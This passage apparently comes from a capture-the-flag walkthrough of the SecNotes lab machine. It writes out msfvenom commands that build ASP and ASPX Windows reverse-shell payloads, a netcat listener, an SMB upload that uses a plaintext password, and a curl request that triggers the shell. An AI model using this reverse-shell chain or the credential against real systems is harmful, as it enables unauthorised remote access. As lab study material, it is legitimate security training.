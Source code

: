 ![web7](./secnotes/web7.png)

Try uploading an ASP reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.asp
nc -nvlp 6969
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.asp;quit' # 92g!mA8BGjOirkL%OG*&
curl -s http://10.10.10.97:8808/bubba.asp
```

But this results in a `500 - Internal server error`. Try an ASPX payload:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 \
         -f aspx-exe \
         -o bubba.aspx
```

